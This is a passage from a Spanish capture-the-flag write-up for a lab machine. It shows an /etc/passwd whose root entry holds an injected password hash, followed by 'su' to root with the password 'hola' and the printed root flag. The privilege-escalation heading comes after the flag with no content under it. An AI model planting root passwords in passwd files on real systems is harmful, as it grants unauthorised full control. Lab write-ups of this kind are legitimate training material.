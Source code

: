 ```console
root:YVRApXH.RgnuE:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
falaraki:x:1000:1000:Falaraki Rainiti,,,:/home/falaraki:/bin/bash
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
```

Ingresamos como root con la nueva contraseña *hola*
> su

```console
Password: 
root@apocalyst:/var/www/html/apocalyst.htb#
```

Y ya podriamos ver la flag de root

> root@apocalyst:/var/www/html/apocalyst.htb# cat /root/root.txt

```console
6d473e865d935e13bb8b088a2b12b396
```

## Fase de Escalación de Privilegios



## Estructura del directorio
